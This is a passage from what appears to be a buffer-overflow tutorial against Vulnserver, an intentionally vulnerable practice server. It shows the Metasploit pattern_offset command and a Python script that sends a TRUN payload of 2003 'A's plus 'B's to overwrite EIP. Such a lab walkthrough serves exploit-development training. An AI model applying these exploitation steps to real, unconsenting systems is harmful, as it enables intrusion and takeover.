 ```python
        find_offset(host, port, read_file(offset_file))
```
![esp_overwritten](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/esp_overwritten.png)

> Now after executing the script upon analyzing immunity, ESP is now overwritten with pattern.rb characters from the metasploit module. But what is needed to take control is the EIP.

```shell
$(locate pattern_offset.rb) -l 3000 -q 386F4337
```

> The commands will find the offset of a certain pattern offset around 3000 bytes and as we checked on the immunity debugger, EIP is 386F4337 which gives us..

![pattern_offset](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/pattern_offset.png)

## Overwriting the EIP

> Since we have found the offset we will send 2003 A's because this is the start of EIP and add B's to know that we already overwritten the EIP.

*shellcode.py*
```python
#!/usr/bin/python3

import sys, socket

host = '172.16.10.101'
port = 9999
shellcode = 'A' * 2003 + 'B' * 4

def inject_shellcode(host, port, shellcode):

        while True:
                try:
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((host, port))

                        # Sending shellcode to know if EIP is overwritten.
                        s.send(('TRUN /.:/' + shellcode).encode('ascii'))
                        s.close()

                except:
                        print("Error connecting to the server..")
                        sys.exit()
```